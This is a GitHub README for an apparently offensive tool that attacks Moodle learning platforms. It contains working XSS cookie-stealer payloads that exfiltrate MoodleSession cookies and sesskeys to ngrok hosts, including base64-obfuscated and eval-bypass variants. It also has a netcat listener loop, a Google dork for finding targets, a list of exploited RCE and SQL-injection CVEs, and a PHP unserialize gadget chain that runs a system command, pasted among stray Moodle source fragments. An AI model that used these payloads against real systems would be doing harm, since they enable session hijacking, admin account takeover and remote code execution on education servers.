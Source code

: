 # ToodleMoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

https://packetstormsecurity.com/files/149426/Moodle-3.x-PHP-Unserialize-Remote-Code-Execution.html CVE-2018-14630

Features:

* Scan: the tool can detect version and suggest supported exploits
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
* Add XSS to account dashboard, generate clickjacker, using CVE-2019-3847 to hijack
session
* Add XSS to calendar, generate link for victim to click and steal session

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup
```
bin/moodle-docker-compose up
```

## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer

// Legacy format containing PHP serialisation.
            https://github.com/moodle/moodle/archive/v3.1.13.zip
            foreach ($data['#']['answer'] as $answerxml) {
                $ans = $format->import_answer($answerxml);
                $options = unserialize(stripslashes($ans->feedback['text']));
                // $payload = 
                // "O:15:\"\\core\\lock\\lock\":3:{s:6:\"\0*\0key\";O:23:\"\\core_availability\\tree\":1:{s:11:\"\0*\0children\";O:24:\"\\core\\dml\\recordset_walk\":2:{s:11:\"\0*\0callback\";s:6:\"system\";s:12:\"\0*\0recordset\";O:25:\"question_attempt_iterator\":2:{s:7:\"\0*\0quba\";O:26:\"question_usage_by_activity\":1:{s:19:\"\0*\0questionattempts\";a:1:{s:4:\"1337\";s:13:\"echo aawhoami\";}}s:8:\"\0*\0slots\";a:1:{i:0;i:1337;}}}}s:9:\"draggroup\";s:1:\"1\";s:8:\"infinite\";i:1;}";
                // $options = unserialize($payload);//unserialize(stripslashes($ans->feedback['text']));
                // echo $payload;
                
                // var_dump($options);
O:15:"\core\lock\lock":3:{s:6:"�*�key";O:23:"\core_availability\tree":1:{s:11:"�*�children";O:24:"\core\dml\recordset_walk":2:{s:11:"�*�callback";s:6:"system";s:12:"�*�recordset";O:25:"question_attempt_iterator":2:{s:7:"�*�quba";O:26:"question_usage_by_activity":1:{s:19:"�*�questionattempts";a:1:{s:4:"1337";s:13:"echo aawhoami";}}s:8:"�*�slots";a:1:{i:0;i:1337;}}}}s:9:"draggroup";s:1:"1";s:8:"infinite";i:1;}
